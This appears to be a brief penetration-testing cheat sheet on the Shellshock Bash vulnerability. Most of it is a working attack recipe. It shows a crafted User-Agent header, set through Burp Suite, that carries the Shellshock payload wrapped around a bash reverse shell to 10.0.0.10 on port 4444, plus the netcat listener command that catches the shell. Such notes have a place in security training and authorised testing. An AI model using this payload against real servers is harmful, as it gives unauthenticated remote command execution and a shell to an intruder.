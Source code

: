 # Shellshock

Shellshock is a group of security vulnerabilities found in the _Bourne-Again_ shell (_Bash_), which allowed attackers to execute aribitrary commands on a server without authentication against the machine or web application.

## Hunting

Burp Suite -> Proxy -> Intercept ON

Change _User-Agent_ header to:

```
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"
```

Then at your terminal prompt:

```
nc -lvp 4444
$ Listening on [any] 4444...
```

Then let the request pass through and your terminal will be presented with a bash shell access.
